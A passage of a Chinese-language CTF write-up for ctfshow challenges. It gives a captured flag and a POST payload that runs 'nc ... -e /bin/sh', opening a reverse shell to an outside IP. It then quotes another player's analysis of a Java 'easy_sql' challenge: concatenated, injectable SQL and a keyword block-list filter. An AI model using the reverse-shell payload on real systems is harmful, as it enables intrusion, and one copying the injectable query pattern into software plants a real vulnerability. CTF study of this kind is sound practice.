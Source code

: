 ```sh
ctfshow{186f25ab-b83f-4793-91ed-3cde8b399991}

POST cmd=nc 1.15.107.150 3296 -e /bin/sh #-e 要在后面，在前面可能由于版本不同会G
```

+++

## easy_sql

java的sql，完全不会

### 群主的WP

> 首先审计看关键代码
>
> ```Python
> public String auth(@RequestParam String username, @RequestParam String password, HttpServletRequest request){
>     String message="社工库未查询到泄露记录，你的账号是安全的。";
> 
>     if(SafeUtil.sql_check(username) || SafeUtil.sql_check(password)){
>         message="stop sql inject!";
>         return message;
>     }
> 
>     try {
>         String sql = "select username,password from app_user where username ='" + username + "' and password ='" + password + "' ;";
>         ResultSet resultSet = DbUtil.getInstance().query(sql);
>         if (null != resultSet) {
>             while (resultSet.next()) {
>                 message = "您的QQ账号密码已经泄露，请立即修改密码";
>                 break;
>             }
>         }
>     }catch (Exception e){
>         e.printStackTrace();
>         message="数据查询出错";
>     }
>     insertQueryLog(username,password);
>     return message;
> }
> ```
>
> 跟进看过滤
>
> ```Python
> public static boolean sql_check(String sql){
> 
>     sql = sql.toLowerCase(Locale.ROOT);
>     String ban[] = {"'",
>             "file",
>             "information",
>             "mysql",
>             "from",
>             "update",
>             "delete",
>             "select",",","union","sleep","("};
>     for (String s:ban) {
>         if(sql.contains(s)){
>             return true;
>         }
>     }